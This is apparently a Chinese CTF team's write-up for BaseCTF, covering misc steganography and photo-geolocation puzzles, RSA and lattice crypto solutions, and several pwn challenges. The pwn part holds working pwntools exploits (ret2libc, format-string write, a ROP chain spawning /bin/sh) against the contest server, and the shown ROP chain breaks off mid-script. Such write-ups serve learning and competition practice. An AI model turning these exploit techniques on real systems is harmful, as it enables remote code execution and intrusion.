

队伍：<font style="background-color:rgba(255, 255, 255, 0);">Aura&Jumping</font>

## <font style="color:#DF2A3F;">M</font><font style="color:#585A5A;">isc</font>
### ez_crypto
:::color3
qMfZzunurNTuAdfZxZfZxZrUx2v6x2i0C2u2ngrLyZbKzx0=

:::

拿到一串怪怪的字符串，试了一会，发现是换表 Base64。

怎么换的？其实就是把表中的大小写字母换了一下顺序。

:::tip
A-Za-z0-9+/=     ---->     a-zA-Z0-9+/=

:::

CyberChef 直接解，得到 flag。


### Base?!
:::color3
hS5VZPaBjN4IU6G2VFqZqNG-tPrJm64NgMKQuEa3nNIBIFbh0MLBZEpF4LqZn

9LpBjLoRjPqEV6Lo+


question        response


Base64?              X

Base32?              X

:::

不懂，丢随波逐流里面看一下。


直接出了，是 XXencode。

### 黑丝上的flag
给了一张~~很好看~~的黑丝照片，丢入 StegSolve 看看。

翻到 Alpha Plane 1 时发现 flag。


### 哇！珍德食泥鸭
拿到一个 5 帧的 GIF，发现没什么东西。

binwalk 分一下，分出来一个压缩包。

看一下内容，发现这个压缩包其实是一个 Word 文档，那么把后缀改成 .docx，然后打开。

全选文字，然后取消隐藏，再把字都改成红色。


在最后一页发现异常，把盖在上面的这个图片删除后就能看到 flag。


### 二维码1-街头小广告


拿到一张损坏的二维码，直接修复即可，这里使用画图3D。

复制左下角的块到右上角即可，然后扫码。


扫出 flag，前面那个是 Never Gonna Give You Up 的视频，没用。

把 %7B 换成大括号即可得到正确的 flag。

### 海上又遇了鲨鱼
又是流量分析，可以找到一个 flag.zip，将它提取出来。


需要密码，这里可以在流量包中找到密码。


:::color4
Ba3eBa3e!@#

:::

解压后即可看到 flag。

### 前辈什么的最喜欢了
给了一个  txt，里面是 Base64 编码的 png 文件，丢入 CyberChef 把图片解出来。

图片损坏，直接进行宽高爆破，可以在爆破后的正常图片中找到 flag。


### 反方向的雪
拿到一张 jpg 图片，010 可以看到最后有一块翻转的内容，是一个压缩包。


翻转过来，最后跟着是一串密码，再提取一下压缩包。

:::color4
The_key_is_n0secr3t

:::

压缩包要密码，但不是上面的那个密码，题目提示密码为 6 位，直接爆破发现可以爆破出来。


压缩包里面是一个 txt，题目名称提示很明显，这是 snow 隐写，用工具解决。

密码是一开始得到的那串。


### 图寻擂台
#### <font style="color:#5C0036;">I</font>


直接群里面找到出题人翻出题人空间，得知这是成都自然博物馆。

#### II


楼上的字隐隐约约能够看清，是首东置业。

根据出题人信息，可以定位到成都，借助百度地图，通过对比建筑物高度和拍摄角度，能够定位到拍摄地所在酒店为盛捷酒店。

#### III


<font style="color:rgb(51, 51, 51);">直接exif里面看地址：</font>


<font style="color:rgb(51, 51, 51);">谷歌自动补全景区：</font>


#### IV


直接上百度识图，能够得知该地为南京夫子庙。

#### V


政治敏感，百度识图行不通，可以用 yandex 识图。

翻几个网页，很容易就能知道这两个地方分别是 邓小平铜像广场 和 邓小平故居陈列馆。

#### VI


图片上能看清迎泽派出所校园警务室，在百度地图中搜索，能够定位到几所学校，再逐个通过街景和图片内容匹配，能够找到该学校是太原市第五中学校，建校时间直接搜学校就能看到。

#### VII


图中间有个超市，能够很极限得看出来几个字，鸿鹏连锁一分利xxxxxx。

直接上网搜，能够找到商家的抖音，里面正好有位置。


#### VIII


船名能直接看到，是 BLUEWAYS，直接搜船名就能解决。

#### IX


直接百度识图，得知这是西安的彩虹桥，接下来照拍摄地所在景区，百度地图找不到，高德地图可以。直接看这座桥周围的景区就能定位。


## <font style="color:#DF2A3F;">C</font><font style="color:#585A5A;">rypto</font>
### two_squares
```python
from Crypto.Util.number import *
flag=b'BaseCTF{}'
m=bytes_to_long(flag)
p=getPrime(128)
q=getPrime(128)
n=p*q
e=65537
c=pow(m,e,n)
x=p^2+q^2
print("e =",e)
print("c =",c)
print("x =",x)

"""
e = 65537
c = 42330675787206041757903427737108553993012805007294570657461042152628982126538
x = 209479773119142584969854470862023704936857416491817498021871883305658177375498
"""
```

注意：这个题是用 sage 跑的，所以代码中的 ^ 是幂运算而不是异或。

怎么能分出来 p，q 呢？其实题目名称提示得很明显，sage 中有一个函数就叫 two_squares，可以把一个数分解成两个大小接近的数的平方和。

```python
import libnum

e = 65537
c = 42330675787206041757903427737108553993012805007294570657461042152628982126538
x = 209479773119142584969854470862023704936857416491817498021871883305658177375498

p,q = two_squares(x)
n = p*q
phi = (p-1)*(q-1)
d = libnum.invmod(e,phi)
m = pow(c,d,n)
print(libnum.n2s(int(m)))
#b'BaseCTF{0760becd-cefaab0b094d}'
```

### random_primes
```python
from Crypto.Util.number import *
import random
def gen_n():
    primes=[getPrime(128) for _ in range(256)]
    n = 1
    for i in range(100):
        n *= primes[random.randint(0,127)]
    return primes,n

flag=b'BaseCTF{}'
m=bytes_to_long(flag)

assert len(flag)==45

primes,n = gen_n()
e = 0x010001

c=pow(m,e,n)

print("n =",n)
print("e =",e)
print("c =",c)
print("primes =",primes)
```

直接暴力跑一遍即可。

```python
from tqdm import *
import gmpy2
import binascii
from collections import Counter
def factorize(n, primes):
    factors = []
    for _ in trange(100):
        for prime in primes:
            if n % prime == 0:
                factors.append(prime)
                n //= prime
                break
    return factors

n = ...
e = 65537
c = ...
primes = [....]
list = factorize(n, primes)
prime_counts = Counter(list)
phi = 1
for p, count in prime_counts.items():
    phi *= p ** (count - 1) * (p - 1)
d = gmpy2.invert(e, phi)
jiemi = hex(pow(c, d, n))[2:]
print(binascii.unhexlify(jiemi))
#b'BaseCTF{7cf4eedb-8b2d-406f-83bf-b2cb70882832}'
```


### 铜匠
```python
from Crypto.Util.number import getPrime, bytes_to_long
#from secret import flag
flag=b'XXXX'

p = getPrime(1024)
q = getPrime(1024)
n = p * q
e = 65537
hint1 = p >> 721
hint2 = q % (2 ** 266)
ct = pow(bytes_to_long(flag), e, n)
print(hint1)
print(hint2)
print(n)
print(ct)
'''
hint1 = 14439249591349619691972392177790365247490839237199085979433418493254022567815148979672690178
hint2 = 90063199151369157959005663017593053931871580139169245885113098598755909124764417
n = 18347545778876678838092757800261556931131930866012101566000425608407193858675622059415995283684230959320874387944052648148677918542763633503231962873204645415818139345588988936580526094727943067102768943117592654029397879665312089518191052154267343886226820785206334238961064175118262578895847281575656290248049404047727756356910896332939145136942219317065063060070725033146788186604738271846183709127655298440696824683099637827282095133642324657860714680107691622056420045091586609974536644773286992447027164350612852922016376888380895187804771279035652496676089183636450028327097084911908336202253562671798012457461
ct = 15659576879410368237140555530527974801613150473447768911067611094143466009251385693099110691602954207905029692682380253595062935017486879899242785756448973466690818942065250284891341066578689696180061755610538867770441139827574063212967027249650509215685566103350688284041405586915563454117672061141919712416360596137520514412607512596079964611672166435592936417138352662031529414118312166411150736015788925026636845744110093161894267707446937939130745326244186579516665160036229715964182962542836836457885170975474737620430886449029488829662146456489724775166105816909257516908496172172266375617868819982791477888289
'''

```

p 高位泄露，直接 Copper Smith 解决。

```python
import libnum
p1 = 14439249591349619691972392177790365247490839237199085979433418493254022567815148979672690178
q0 = 90063199151369157959005663017593053931871580139169245885113098598755909124764417
n = 18347545778876678838092757800261556931131930866012101566000425608407193858675622059415995283684230959320874387944052648148677918542763633503231962873204645415818139345588988936580526094727943067102768943117592654029397879665312089518191052154267343886226820785206334238961064175118262578895847281575656290248049404047727756356910896332939145136942219317065063060070725033146788186604738271846183709127655298440696824683099637827282095133642324657860714680107691622056420045091586609974536644773286992447027164350612852922016376888380895187804771279035652496676089183636450028327097084911908336202253562671798012457461
enc = 15659576879410368237140555530527974801613150473447768911067611094143466009251385693099110691602954207905029692682380253595062935017486879899242785756448973466690818942065250284891341066578689696180061755610538867770441139827574063212967027249650509215685566103350688284041405586915563454117672061141919712416360596137520514412607512596079964611672166435592936417138352662031529414118312166411150736015788925026636845744110093161894267707446937939130745326244186579516665160036229715964182962542836836457885170975474737620430886449029488829662146456489724775166105816909257516908496172172266375617868819982791477888289
e = 65537
mod=pow(2,266)
p0=n*inverse_mod(q0,mod)%mod
pbar=(p1<<721)+p0
#sage
PR.<x> = PolynomialRing(Zmod(n))
 
for i in range(2):
    f=pbar+x*mod*2
    f=f.monic()
    pp=f.small_roots(X=2^454,beta=0.4)
    if(pp):
        break
    pbar+=mod
 
p=pbar+pp[0]*2*mod
assert n%p==0
p = int(p)
q = n//p
phi = (p-1)*(q-1)
d = libnum.invmod(e,phi)
m = pow(enc,d,n)
print(libnum.n2s(int(m)))
#b'BaseCTF{7074ddc3e006810688241196414e49e2}'

```

### try_to_factor
```python
from Crypto.Util.number import *
import random

flag=b'BaseCTF{}'+random.randbytes(64)
m=bytes_to_long(flag)

p,q,r,s,t=[getStrongPrime(512) for _ in range(5)]
N=p*q*r*s*t

n=p*q
e=65537
c=pow(m,e,n)


gift=random.randint(2,n)*(p-1)*(q-1)*(r-1)*(s-1)*(t-1)
while gift%2==0:
    gift//=2

print("N =",N)
print("c =",c)
print("gift =",gift)

"""
N = 162692163428762295773992659007654377270271126313772302197255271375236131917158614424426498628778734679898165422129699410934825650141972454562350664161510689489443251515884304101827584411577749250383438126881931889798597627663578045519256806107514170414321556291545302688028088470848270636776466672843710163017531472049823632822203461654253767303314505996071453898533003519236112138591066133289040889933161978131399309340741554076140734156174295730180874473301361701867633594222054688204666518058106672165786417002466165926062199279674267145233283545524775943767021416906072142236079753359492846480515376121887507681663761713445807717270089017438999615422884163666812016989696908657065537508715229685120221307021151610089917537155165897740417480127289719971512938348936259
c = 113962118676826667648935023618252851875440854724310328843964819392166304653581141146631375503931008732348730639629174670963727399860571217264854300057305570824097216782800531930906801885967717639795643406206813677461127762087560021634738167845077869308515223303820469892552545806179267969169748886980836435095
gift = 863514692222931709925579242743251211976114217396765747601042357918763818732391790491059528595917786523674732369068315533549380754409535403506339052401422249684188032949680148055803474336983973622610403448963752802490806614810077181934627694570685722842963961551889267501616799757825675192653489096007790143775773378495299981666657347802233798206597104474595281241837323214457344961462510183726339545608046357281265026013496037522835659867389206279894057481600882665189079672009577651494435000349624334685832217586703242422260870866432379257259316411280539845741932725104662417642890238587876489774492067722351467773093391502588019563488688309892102039611978767690653206664257400163618467825666105966072942726011447079204869750153256054140924951306811971422635104088608275908232688385437145325481792836532453258784103533536292492138405929815964841772656055397705840797739586953744563989819811944946916720655079908564653686456283647030055622241840292127096994325415897266379446446435164189216562921252341705747891518007710533906231225283309180960546212899099652226954393826875
"""
```

多素数 RSA，可以参考这个论文。

[https://link.springer.com/content/pdf/10.1007/3-540-36492-7_25.pdf](https://link.springer.com/content/pdf/10.1007/3-540-36492-7_25.pdf)



<font style="color:rgb(51, 51, 51);">拉斯维加斯，随机算法找到所有的可能的因子。</font>

```python
import random
from tqdm import trange
from math import gcd

def power_mod(base, exponent, mod):
    result = 1
    while exponent > 0:
        if exponent % 2 == 1:
            result = (result * base) % mod
        base = (base * base) % mod
        exponent = exponent // 2
    return result


def find_factor(N, gift, max_s=1000):
    while True:
        # 随机选择w
        w = random.randint(2, N//2)

        for s in trange(1, max_s + 1):

            # left = w ** (2**s*gift) % N
            left = power_mod(w, (2**s * gift), N)
            # tmp = w ** (2**(s-1)*gift) % N
            tmp = power_mod(w, (2**(s-1) * gift), N)
            if left == 1 and s == 0:
                print("FAILLURE")
                continue
            elif left == 1 and (tmp + 1)%N != 0:
                factor = gcd(N, tmp + 1)
                print(f"找到因子: {factor}")
                return factor
# get 5 factors

# 示例数据
N = 162692163428762295773992659007654377270271126313772302197255271375236131917158614424426498628778734679898165422129699410934825650141972454562350664161510689489443251515884304101827584411577749250383438126881931889798597627663578045519256806107514170414321556291545302688028088470848270636776466672843710163017531472049823632822203461654253767303314505996071453898533003519236112138591066133289040889933161978131399309340741554076140734156174295730180874473301361701867633594222054688204666518058106672165786417002466165926062199279674267145233283545524775943767021416906072142236079753359492846480515376121887507681663761713445807717270089017438999615422884163666812016989696908657065537508715229685120221307021151610089917537155165897740417480127289719971512938348936259
c = 113962118676826667648935023618252851875440854724310328843964819392166304653581141146631375503931008732348730639629174670963727399860571217264854300057305570824097216782800531930906801885967717639795643406206813677461127762087560021634738167845077869308515223303820469892552545806179267969169748886980836435095
gift = 863514692222931709925579242743251211976114217396765747601042357918763818732391790491059528595917786523674732369068315533549380754409535403506339052401422249684188032949680148055803474336983973622610403448963752802490806614810077181934627694570685722842963961551889267501616799757825675192653489096007790143775773378495299981666657347802233798206597104474595281241837323214457344961462510183726339545608046357281265026013496037522835659867389206279894057481600882665189079672009577651494435000349624334685832217586703242422260870866432379257259316411280539845741932725104662417642890238587876489774492067722351467773093391502588019563488688309892102039611978767690653206664257400163618467825666105966072942726011447079204869750153256054140924951306811971422635104088608275908232688385437145325481792836532453258784103533536292492138405929815964841772656055397705840797739586953744563989819811944946916720655079908564653686456283647030055622241840292127096994325415897266379446446435164189216562921252341705747891518007710533906231225283309180960546212899099652226954393826875
num1 = 10735681302825912868095663197139810022565305493164627486836513894883860598307732490956938269540406369625877588320809620427171776417839985850851728452012081
num2 = 11305040878738021811402439197878615954268080275926783422631842900427188149662049119033973597228180836724634867699361010520204383649921114682598253229148193
num3 = 12065220629404154268847771423332648956169912177824265272149645522947645275358106601922684260868397893795065500499878644811370820220730079844236829670243911
num4 = 11215557678579656873636794393262869574839711743001038260483773230670842818171598967864419369784934089649471289494136409813864628334111748590099942608543623
num5 = 9906237717211706464164358740459730309373133301767426411724458099077825419214167122866109049004942864924739763341081239620735273290918249499469902156652291
N = N // num1
N = N // num2
N = N // num3
N = N // num4
print(N)
factor = find_factor(N, gift)
assert N % factor == 0
if factor:
    print("找到的因子:", factor)
else:
    print("未找到因子")
```

<font style="color:rgb(51, 51, 51);">暴力两两一组计算flag：</font>

```python
import gmpy2
import binascii

# Given numbers
num1 = 10735681302825912868095663197139810022565305493164627486836513894883860598307732490956938269540406369625877588320809620427171776417839985850851728452012081
num2 = 11305040878738021811402439197878615954268080275926783422631842900427188149662049119033973597228180836724634867699361010520204383649921114682598253229148193
num3 = 12065220629404154268847771423332648956169912177824265272149645522947645275358106601922684260868397893795065500499878644811370820220730079844236829670243911
num4 = 11215557678579656873636794393262869574839711743001038260483773230670842818171598967864419369784934089649471289494136409813864628334111748590099942608543623
num5 = 9906237717211706464164358740459730309373133301767426411724458099077825419214167122866109049004942864924739763341081239620735273290918249499469902156652291

numbers = [num1, num2, num3, num4, num5]

# RSA parameters
e = 65537
c = 113962118676826667648935023618252851875440854724310328843964819392166304653581141146631375503931008732348730639629174670963727399860571217264854300057305570824097216782800531930906801885967717639795643406206813677461127762087560021634738167845077869308515223303820469892552545806179267969169748886980836435095

# Iterate over all possible pairs of numbers
for i in range(len(numbers)):
    for j in range(len(numbers)):
        if i != j:
            p = numbers[i]
            q = numbers[j]

            # Calculate n and phi
            n = p * q
            phi = (p - 1) * (q - 1)

            # Calculate the private key d
            try:
                d = gmpy2.invert(e, phi)

                # Decrypt the ciphertext
                flag = hex(pow(c, d, n))[2:]

                # Convert to bytes and print the flag
                print(f"p = {p}")
                print(f"q = {q}")
                print(f"Decrypted flag: {binascii.unhexlify(flag)}")
                print("-----")
            except ZeroDivisionError:
                # Handle cases where the inverse calculation fails
                print(f"Failed to compute d for p = {p} and q = {q}")
                
# -----
# p = 11305040878738021811402439197878615954268080275926783422631842900427188149662049119033973597228180836724634867699361010520204383649921114682598253229148193
# q = 11215557678579656873636794393262869574839711743001038260483773230670842818171598967864419369784934089649471289494136409813864628334111748590099942608543623
# Decrypted flag: b'BaseCTF{ed4bff90-d1f4-4f0f-a3bd-999c54d9eeb7};\xef\xd7"X\xceglz\xc2l\xc3\xf0\x04\n$I\x00\xda\rT\xc5\xef\xc9t]\x0c\xae@\xdcO5\x02\xa8\xd6/{5\xacD5\xda\x11{\x80\x80\xa3\t#\x97\x871L\x10\r\x122z\xe1\x89%\x85\xdb\x94'
# -----


```


### mid_math2
```python
import numpy as np
from Crypto.Util.number import *

a, b, c = [getPrime(128) for _ in range(3)]
d, e, f, h, i, j = [getPrime(1024) for _ in range(6)]
A = [[a, b, c], [d, e, f], [h, i, j]]

flag = b"flag{test_flag}"
flag = bytes_to_long(flag)

def prod(myList):
    result = 1
    for i in myList:
        result = result * i
    return result

def randomArray():
    upper = [[1, 0, 0], [0, 1, 0], [0, 0, 1]]
    low = [[1, 0, 0], [0, 1, 0], [0, 0, 1]]
    for i in range(3):
        for j in range(i+1, 3):
            upper[i][j] = getPrime(128)
            low[j][i] = getPrime(128)
    result = np.array(upper) @ np.array(low)
    return result

e = getPrime(18)
N = getPrime(1024)
C = randomArray()
#MAT = C @ A @ B
MAT = C @ A
c = pow(flag, e, prod(A[0]))

print(MAT)
print(f'c = {c}')
print(f'e = {e}')

'''
[[9194428734244577957135736828947112370812209206819996917633266069359894211949655026549592464237531352518967649750275097282532736237822915630766535634248987628113137246739472264614337707439494149796414126558156060870508338278038269649101921703583149322486905552569052814106532234864028314925118581658029792157851338427975728108000711353532410024128431635933014226306706319591106081211872
  7052600738698435126221697697810087514520765619736355003187836563546493264420232197860875416948961661231812045406188307561458872254314061097960625042149316957446344556490001927621879295417925720004568332344856366002394724202261454916368122811414228043610804718983599804179657247820737462743875143882925818085495573474169110616761320858675303922740882169073395416895304752909979711051264
  13094262565727554986668133240216117564284263232131011542877585146452802164148464500319291219458081531317231044962383872061004846788004747813785963603455919882739054992075130196548494850105124430477756818974520035883861936342117869122455996838023977818945511119955390136020375974150407580576040034808588694313922810340598787633148909527275716235390356737099830131958338026891256778602432]
 [7291452286171544741377496447735677778433522048452394999757158120018504601116506253897733192493798837108269469756414516913436198353934250444263790689101779479157541198872731006007031448329354826004420971505929629537584453480285628607579031078497417101681028600589030661495031531644755072500393418929237208836713910921969937998825721580514845395852889662758886414966066733340052235985735
  5592919719754926663830816961667268104316637431189640788304536404157195458040686322901848820171568258023938724485177544141303597034389473064509506247034833050568643394732003598890104462382321956436508366359718039669456303596542945687737870352569084995858128262046585579724537002100295978230177579835256681774512205534970583421138287684468047290246482431883957170924203400422234299829407
  10384135162743100269852365857770153822630076412853981379757028821332622753962517667857057209221058533163475030678127399042436975886694593504673386134198042731671320468065688239424934644173240507619471360908786669070898288638067852779718549009532013299792474712979659423962779677856135791013599792822988457540442172903145046394648862567656330868441373023488569784114231877910285319620037]
 [34946383530632295853235791100380055176686898072752599942691162027311662041417740482507624946631032260410440329949488242706004902881977357811370156793240362927747354453547446315050117795844866771053429455608334265986953931753411938119703800489233043034369650346216548318254326462336573090313788936967898128977445514764945671848611612198443909056919
  26805677375585831510259621878357023272222175103906204143689109861471123435549853025410319713500257027420994041712736040084303902812241806295302385126726161281240831030434347236854521776375408982352155894199700974681768432734155312616453345950508256035721377179651166114898547487082749355033867559583905997404388549346221139007108462958001461826337
  49768956277664050500387501949373949828589012443212214016088015478826178759698946452495063308332332373728223252613132611904477061717762261927498754849913008747980442098787524359755695519989286304445175440218168145037681791003471134417445542856715034633656861298596197935068562189476201463465706711744838395255326376049859058504891392128431832044455]]
c = 11781599055433308033432930805524658061560499523533841161297213162869735414528038973998414585008473948613388691447093
e = 160907
'''

```

```plain
# |MAT| = |C| * |A| = |A|
# |C| = 1
# |A| = a * e * j - a * f * i - b * d * j + b * c * i + c * d * f - c * e * j
# A和MAT具有相同的行列式，因此对于空间A和MAT来说，根据题目提示得到的用施密特，就是用Gram-Schmidt 正交化，将向量变小
# 对于（a,b,c）向量，小素数，直接LLL算法，得到最小的向量，第一列就是（a,b,c）
# 参考LLL算法在破解背包密码的应用
```

```python
from sage.all import *
from Crypto.Util.number import *

MAT = matrix([[
    9194428734244577957135736828947112370812209206819996917633266069359894211949655026549592464237531352518967649750275097282532736237822915630766535634248987628113137246739472264614337707439494149796414126558156060870508338278038269649101921703583149322486905552569052814106532234864028314925118581658029792157851338427975728108000711353532410024128431635933014226306706319591106081211872,
    7052600738698435126221697697810087514520765619736355003187836563546493264420232197860875416948961661231812045406188307561458872254314061097960625042149316957446344556490001927621879295417925720004568332344856366002394724202261454916368122811414228043610804718983599804179657247820737462743875143882925818085495573474169110616761320858675303922740882169073395416895304752909979711051264,
    13094262565727554986668133240216117564284263232131011542877585146452802164148464500319291219458081531317231044962383872061004846788004747813785963603455919882739054992075130196548494850105124430477756818974520035883861936342117869122455996838023977818945511119955390136020375974150407580576040034808588694313922810340598787633148909527275716235390356737099830131958338026891256778602432],
    [
        7291452286171544741377496447735677778433522048452394999757158120018504601116506253897733192493798837108269469756414516913436198353934250444263790689101779479157541198872731006007031448329354826004420971505929629537584453480285628607579031078497417101681028600589030661495031531644755072500393418929237208836713910921969937998825721580514845395852889662758886414966066733340052235985735,
        5592919719754926663830816961667268104316637431189640788304536404157195458040686322901848820171568258023938724485177544141303597034389473064509506247034833050568643394732003598890104462382321956436508366359718039669456303596542945687737870352569084995858128262046585579724537002100295978230177579835256681774512205534970583421138287684468047290246482431883957170924203400422234299829407,
        10384135162743100269852365857770153822630076412853981379757028821332622753962517667857057209221058533163475030678127399042436975886694593504673386134198042731671320468065688239424934644173240507619471360908786669070898288638067852779718549009532013299792474712979659423962779677856135791013599792822988457540442172903145046394648862567656330868441373023488569784114231877910285319620037],
    [
        34946383530632295853235791100380055176686898072752599942691162027311662041417740482507624946631032260410440329949488242706004902881977357811370156793240362927747354453547446315050117795844866771053429455608334265986953931753411938119703800489233043034369650346216548318254326462336573090313788936967898128977445514764945671848611612198443909056919,
        26805677375585831510259621878357023272222175103906204143689109861471123435549853025410319713500257027420994041712736040084303902812241806295302385126726161281240831030434347236854521776375408982352155894199700974681768432734155312616453345950508256035721377179651166114898547487082749355033867559583905997404388549346221139007108462958001461826337,
        49768956277664050500387501949373949828589012443212214016088015478826178759698946452495063308332332373728223252613132611904477061717762261927498754849913008747980442098787524359755695519989286304445175440218168145037681791003471134417445542856715034633656861298596197935068562189476201463465706711744838395255326376049859058504891392128431832044455]])

cipher = 11781599055433308033432930805524658061560499523533841161297213162869735414528038973998414585008473948613388691447093
e = 160907
A = MAT.LLL()[0]
print(A)
'''
(-236130165094853680147548477965673733087, -239944149450664840530797826438545665351, -311189806074421847914190022157435042909)

'''
a = 236130165094853680147548477965673733087
b = 239944149450664840530797826438545665351
c = 311189806074421847914190022157435042909
n = a * b * c
phi = (a - 1) * (b - 1) * (c - 1)
d = inverse(e, phi)
print(long_to_bytes(int(pow(cipher, d, n))))
# b'BaseCTF{8E2BD73F-9C10-F813-2CA4-B4B2DED4E961}'
```

### basic
考察 pwntools 的使用。

```python
from Crypto.Util.number import *
import socketserver
import os
import random
import base64
import string

flag = os.getenv('GZCTF_FLAG').encode()


class Task(socketserver.BaseRequestHandler):
    def _recvall(self):
        BUFF_SIZE = 2048
        data = b''
        while True:
            part = self.request.recv(BUFF_SIZE)
            data += part
            if len(part) < BUFF_SIZE:
                break
        return data.strip()

    def send(self, msg, newline=True):
        try:
            if newline:
                msg += b'\n'
            self.request.sendall(msg)
        except:
            pass

    def recv(self):
        return self._recvall()
    
    def handle(self):
        printable_chars = string.ascii_letters + string.digits + string.punctuation
        optional=[b'A',b'B',b'C',b'D']
        for _ in range(100):
            secret= ''.join(random.choices(printable_chars, k=16)).encode()
            select=random.choice(optional)
            self.send(select)
            enc=b''
            if select==b'A':
                enc=base64.b64encode(secret)
            elif select==b'B':
                enc=secret.hex().encode()
            elif select==b'C':
                enc=bytes_to_long(secret)
                enc=str(enc).encode()
            elif select==b'D':
                enc=[i for i in secret]
                enc=str(enc).encode()
            self.send(enc)
            client_send=self.recv()
            if client_send!=secret:
                self.send("\nYou wrong!!!!!")
                exit()

        self.send(flag)
        self.send(b"\nConnection has been closed  =.=  ")
        self.request.close()


class ThreadedServer(socketserver.ThreadingMixIn, socketserver.TCPServer):
    pass


class ForkedServer(socketserver.ForkingMixIn, socketserver.TCPServer):
    pass


if __name__ == "__main__":
    HOST, PORT = '0.0.0.0', 9999
    server = ForkedServer((HOST, PORT), Task)
    server.allow_reuse_address = True
    server.serve_forever()
```

进行 100 次提问，A,B,C,D 对应不同的加密方式，照着意思写即可，需要注意一些小细节。

```python
from pwn import *
import ast
import libnum
import base64
host = remote("challenge.basectf.fun",41747)
def decryptA(x):
    return base64.b64decode(x)
def decryptB(x):
    return (bytes.fromhex(x)).decode('utf-8')
def decryptC(x):
    return libnum.n2s(int(x))
def decryptD(x):
    table = ast.literal_eval(x)
    ans = ''
    for i in table:
        ans += chr(i)
    return ans
for i in range(100):
    opt = host.recvuntil('\n',drop = True).decode()
    print(opt)
    enc = host.recvuntil('\n',drop = True).decode()
    print(enc)
    ans = ''
    if opt=='A':
        ans = decryptA(enc)
    if opt=='B':
        ans = decryptB(enc)
    if opt=='C':
        ans = decryptC(enc)
    if opt=='D':
        ans = decryptD(enc)
    print(ans)
    host.sendline(ans)
host.interactive()
```


## <font style="color:#DF2A3F;">P</font><font style="color:#585A5A;">wn</font>
### 她与你皆失
<font style="color:rgb(51, 51, 51);">纯板子</font>

```python
from pwn import *
context.log_level = 'debug'
p = remote('challenge.basectf.fun', 31924)
lib = ELF('./libc.so.6')
pay = b'a' * 18 + p64(0x0000000000401176) + p64(0x404018) + p64(0x401064) + p64(0x4011DF)
p.send(pay)
addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - lib.sym['puts']
print(hex(addr))
system = addr + lib.sym['system']
binsh = addr + lib.search(b'/bin/sh').__next__()
pay = b'a' * 18 + p64(0x0000000000401176) + p64(binsh) + p64(0x0000000000401176+1) + p64(system)
p.send(pay)
p.interactive()
```

### format_string_level0
<font style="color:rgb(51, 51, 51);">gdb看了一下偏移，直接发送</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">%5$s</font>`<font style="color:rgb(51, 51, 51);">打印flag</font>

### format_string_level1
<font style="color:rgb(51, 51, 51);">改一个</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">bss</font>`<font style="color:rgb(51, 51, 51);">上的值，没开</font>`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">PIE</font>`<font style="color:rgb(51, 51, 51);">，一把梭。</font>

```python
from pwn import *
p = remote('challenge.basectf.fun', 28668)
pay = b'%10c%8$hhn' + b'\x00' * 6 + p64(0x04040b0)
p.send(pay)
p.interactive()
```

### gift
<font style="color:rgb(51, 51, 51);">静态编译的裸栈溢出，ROPgadget一把梭：</font>

`<font style="color:rgb(51, 51, 51);background-color:rgb(243, 244, 244);">ROPgadget --binary ./gift --ropchain</font>`

```python
from pwn import *
#!/usr/bin/env python3
# execve generated by ROPgadget
from struct import pack
r = remote('challenge.basectf.fun', 22906)
# Padding goes here
p = b'a' * 0x28

p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e0) # @ .data
p += pack('<Q', 0x0000000000419484) # pop rax ; ret
p += b'/bin//sh'
p += pack('<Q', 0x000000000044a5e5) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x000000000043d350) # xor rax, rax ; ret
p += pack('<Q', 0x000000000044a5e5) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000401f2f) # pop rdi ; ret
p += pack('<Q', 0x00000000004c50e0) # @ .data
p += pack('<Q', 0x0000000000409f9e) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x000000000047f2eb) # pop rdx ; pop rbx ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x4141414141414141) # padding
p += pack('<Q', 0x000000000043d350) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000471350) # add rax, 1 ; ret
